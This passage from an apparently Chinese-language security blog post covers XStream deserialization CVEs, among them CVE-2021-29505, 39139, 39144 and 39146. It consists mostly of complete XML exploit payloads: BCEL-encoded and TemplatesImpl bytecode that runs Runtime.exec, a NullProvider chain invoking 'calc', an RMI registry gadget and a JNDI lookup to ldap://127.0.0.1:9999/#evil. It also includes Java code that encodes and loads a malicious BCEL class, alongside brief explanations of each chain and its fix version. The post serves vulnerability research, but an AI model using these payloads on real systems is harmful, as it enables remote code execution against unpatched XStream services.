<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$ddN$c20$Y$3d$85$c9$60$O$e5G$fcW$f0J0Qn$bc$c3$Y$T$83$89$c9$oF$M$5e$97$d9$60$c9X$c9$d6$R$5e$cb$h5$5e$f8$A$3e$94$f1$x$g$q$b1MwrN$cf$f9$be$b6$fb$fcz$ff$Ap$8a$aa$83$MJ$O$caX$cb$a2bp$dd$c6$86$8dM$86$cc$99$M$a5$3egH$d7$h$3d$G$ebR$3d$K$86UO$86$e2$s$Z$f5Et$cf$fb$B$v$rO$f9$3c$e8$f1H$g$fe$xZ$faI$c6T$c3kOd$d0bp$daS_$8c$b5Talc$8bxW$r$91$_$ae$a41$e7$8c$e9d$c8$t$dc$85$8d$ac$8dm$X$3b$d8$a5$d2j$y$c2$da1$afQ$D$3f$J$b8V$91$8b$3d$ecS$7d$Ta$u$98P3$e0$e1$a0$d9$e9$P$85$af$Z$ca3I$aa$e6ug$de$93$a1$f8g$bcKB$zG$d4$d6$Z$I$3d$t$95z$c3$fb$e7$a1$83$5bb$w$7c$86$c3$fa$c2nWG2$i$b4$W$D$b7$91$f2E$i$b7p$80$rzQ3$YM$ba$NR$c8$R$bb$md$84$xG$af$60oH$95$d2$_$b0$k$9eII$c11$3a$d2$f4$cd$c2$ow$9e$94eb$eeO$820$3fC$d0$$$fd$BZ$85Y$ae$f8$N$93$85$cf$5c$c7$B$A$A</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='com.sun.org.apache.bcel.internal.util.ClassLoader'>
                  <parent class='sun.misc.Launcher$ExtClassLoader'>
                  </parent>
                  <package2certs class='hashtable'/>
                  <classes defined-in='java.lang.ClassLoader'/>
                  <defaultDomain>
                    <classloader class='com.sun.org.apache.bcel.internal.util.ClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
                  <packages/>
                  <nativeLibraries/>
                  <assertionLock class='com.sun.org.apache.bcel.internal.util.ClassLoader' reference='..'/>
                  <defaultAssertionStatus>false</defaultAssertionStatus>
                  <classes/>
                  <ignored__packages>
                    <string>java.</string>
                    <string>javax.</string>
                    <string>sun.</string>
                  </ignored__packages>
                  <repository class='com.sun.org.apache.bcel.internal.util.SyntheticRepository'>
                    <__path>
                      <paths/>
                      <class__path>.</class__path>
                    </__path>
                    <__loadedClasses/>
                  </repository>
                  <deferTo class='sun.misc.Launcher$ExtClassLoader' reference='../parent'/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>0</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

##### 分析

这个CVE没有使用上一个URLClassLoader进行加载，改用`bcel`的classLoader进行加载，之前在fastjson的内网利用链已经分析了

放一个生成bcel的

```java
//TransBcel
package pers.classLoad;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

import java.io.IOException;

public class TransBcel {
    public static void main(String[] args) throws IOException, InstantiationException, IllegalAccessException, ClassNotFoundException {
        JavaClass javaClass = Repository.lookupClass(EvilOfBcel.class); //转化成原生字节码，javac命令也可以达到目的
        String code = Utility.encode(javaClass.getBytes(), true); //将字节码转化为BCEL格式的字节码
        System.out.println(code);
        //生成的code还需要加上$$BCEL$$，因为com.sun.org.apache.bcel.internal.util.ClassLoader中会判断类名是否的他开头

        //执行恶意类
        Class c = (Class) new ClassLoader().loadClass("$$BCEL$$" + code);
        c.newInstance();
    }
}
```

####  CVE-2021-29505

##### 影响版本

###### <= 1.4.6

##### 版本修复



添加了关于rmi的过滤

##### poc

```java
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.2.149</string>
                                                <int>9999</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.2.149<</host>
                                        <port>9999</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```



##### 分析

这个cve主要是通过`java.util.PriorityQueue` + `javax.naming.ldap.Rdn_-RdnEntry`结合使用配合`com.sun.jndi.rmi.registry.BindingEnumeration`类进行rmi远程Stub的加载，达到加载jndi注入

#### 影响 1.4.17版本

##### 修复

直接在这之后默认使用白名单



##### CVE-2021-39139

###### poc

```xml
<linked-hash-set>
  <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl serialization='custom'>
    <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
      <default>
        <__name>Pwnr</__name>
        <__bytecodes>
          <byte-array>yv66vgAAADIAOQoAAwAiBwA3BwAlBwAmAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBa0gk/OR3e8+AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABNTdHViVHJhbnNsZXRQYXlsb2FkAQAMSW5uZXJDbGFzc2VzAQA1THlzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAJwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAoAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cwEACDxjbGluaXQ+AQARamF2YS9sYW5nL1J1bnRpbWUHACoBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAsAC0KACsALgEACGNhbGMuZXhlCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAeeXNvc2VyaWFsL1B3bmVyNDE2NTkyOTE1MTgwNjAwAQAgTHlzb3NlcmlhbC9Qd25lcjQxNjU5MjkxNTE4MDYwMDsAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAvAA4AAAAMAAEAAAAFAA8AOAAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAA0AA4AAAAgAAMAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAaAAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA4AA4AAAAqAAQAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAkAAMAAgAAAA+nAAMBTLgALxIxtgA1V7EAAAABADYAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAk=</byte-array>
          <byte-array>yv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAPAAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJ</byte-array>
        </__bytecodes>
        <__transletIndex>-1</__transletIndex>
        <__indentNumber>0</__indentNumber>
      </default>
    </com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
  </com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
  <dynamic-proxy>
    <interface>javax.xml.transform.Templates</interface>
    <handler class='sun.reflect.annotation.AnnotationInvocationHandler' serialization='custom'>
      <sun.reflect.annotation.AnnotationInvocationHandler>
        <default>
          <memberValues>
            <entry>
              <string>f5a5a608</string>
              <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl reference='../../../../../../../com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl'/>
            </entry>
          </memberValues>
          <type>javax.xml.transform.Templates</type>
        </default>
      </sun.reflect.annotation.AnnotationInvocationHandler>
    </handler>
  </dynamic-proxy>
</linked-hash-set>
```

###### 分析

这里主要是借鉴了cc链中的思路，根据`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`配合`sun.reflect.annotation.AnnotationInvocationHandler`触发连用链，当然，我们也知道，`sun.reflect.annotation.AnnotationInvocationHandler`在高版本中不存在了

##### CVE-2021-39144

###### poc

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <dynamic-proxy>
      <interface>java.lang.Comparable</interface>
      <handler class='sun.tracing.NullProvider'>
        <active>true</active>
        <providerType>java.lang.Comparable</providerType>
        <probes>
          <entry>
            <method>
              <class>java.lang.Comparable</class>
              <name>compareTo</name>
              <parameter-types>
                <class>java.lang.Object</class>
              </parameter-types>
            </method>
            <sun.tracing.dtrace.DTraceProbe>
              <proxy class='java.lang.Runtime'/>
              <implementing__method>
                <class>java.lang.Runtime</class>
                <name>exec</name>
                <parameter-types>
                  <class>java.lang.String</class>
                </parameter-types>
              </implementing__method>
            </sun.tracing.dtrace.DTraceProbe>
          </entry>
        </probes>
      </handler>
    </dynamic-proxy>
    <string>calc</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

###### 分析

这个poc的风格和最开始的cve感觉尤其的相似，同样使用了`dynamic-proxy`标签，选用了`sun.tracing.NullProvider`作为handler进行动态代理，通过反射获取了`java.lang.Runtime`类和`exec`方法，且传入参数类型进行了定义`java.lang.String` `calc`

##### CVE-2021-39146

###### poc

```xml
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>test</type>
    <value class='javax.swing.MultiUIDefaults' serialization='custom'>
      <unserializable-parents/>
      <hashtable>
          <default>
            <loadFactor>0.75</loadFactor>
            <threshold>525</threshold>
          </default>
          <int>700</int>
          <int>0</int>
      </hashtable>
      <javax.swing.UIDefaults>
          <default>
            <defaultLocale>zh_CN</defaultLocale>
            <resourceCache/>
          </default>
      </javax.swing.UIDefaults>
      <javax.swing.MultiUIDefaults>
          <default>
            <tables>
            <javax.swing.UIDefaults serialization='custom'>
              <unserializable-parents/>
              <hashtable>
                <default>
                  <loadFactor>0.75</loadFactor>
                  <threshold>525</threshold>
                </default>
                <int>700</int>
                <int>1</int>
                <string>lazyValue</string>
                <javax.swing.UIDefaults_-ProxyLazyValue>
                  <className>javax.naming.InitialContext</className>
                  <methodName>doLookup</methodName>
                  <args>
                    <string>ldap://127.0.0.1:9999/#evil</string>
                  </args>
                </javax.swing.UIDefaults_-ProxyLazyValue>
              </hashtable>
              <javax.swing.UIDefaults>
                <default>
                  <defaultLocale reference='../../../../../../../javax.swing.UIDefaults/default/defaultLocale'/>
                  <resourceCache/>
                </default>
              </javax.swing.UIDefaults>
            </javax.swing.UIDefaults>
            </tables>
          </default>
      </javax.swing.MultiUIDefaults>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>test</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

###### 分析

这里主要是通过`javax.swing.UIDefaults_-ProxyLazyValue`这个内部类中存在有反射调用任意类的方法的逻辑



## 参考

[XStream - Change History (x-stream.github.io)](https://x-stream.github.io/changes.html)

https://github.com/x-stream/xstream/compare

https://paper.seebug.org/1543/